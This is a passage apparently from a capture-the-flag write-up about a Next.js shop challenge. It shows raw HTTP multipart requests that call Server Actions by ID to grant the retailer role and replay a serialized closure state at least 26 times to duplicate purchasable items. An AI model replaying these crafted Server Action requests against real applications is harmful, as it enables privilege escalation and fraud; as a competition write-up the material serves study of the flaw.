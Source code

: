 ```
------WebKitFormBoundaryQApJRAsTKClOX1Fa--
```

### Path 3 - State desynchronization through closures

Unfortunately, during the competition, I did not know of the method of using binding Server Actions as shown in the exploits and requests above. Instead, I focused on exploiting the buy/sell functionality after successfully registering a user and setting the user to the retailer role.

In the request shown below, we basically call `makeRetailer()`.

```
POST / HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 182

------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_ID_758c88ac2c11c3f9c5eac5df2912014fc02de432"


------WebKitFormBoundaryQApJRAsTKClOX1Fa--
```

After that, with the idea of closures we had discussed above about how the state is serialized and saved in the requests itself. We can buy the `Fun` item and then replay the same request at least 26 times for the necessary items we could resell.

```
POST / HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Cookie: token=344e1360bd35ec2f26fcf058950d27d6
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 858

------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_REF_2"


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:1"

["$@2"]
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:0"

{"id":"9337c109f875b15e8546173b9d015d3123b9728c","bound":"$@1"}
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:2"

"12wBRqePUMo/+f7x2mV3ihIJ/a6k5k2B5z0VTQHt8UrAYMwwV7iMngSRK4SQHC7nEGRqFCnIJj+SqqENKz0AD1g9mMP2p4vIXU7vZLhYws4en88FdxAMLfSlAtRofz5prCbpfUVKUoMsYV78AA3y5YoIIjr5NmelPAfl1FD6DLx+zWwjy39McbcH9ON8+OdUbijPVKDHz/fHABeGz1yVV5zBOSpJKwZcnPaAXGs16DaiD3rH9IkgabM34v0OI80hlp+E4wapntsDJbcHF8ZRfrPWglO2AJ5IXmqnRkybPPCQF9wezVgW3JDbcPejHcAU4MuGOLUnrisTPM6jpt3GPGPbyLM="
------WebKitFormBoundaryQApJRAsTKClOX1Fa--
```
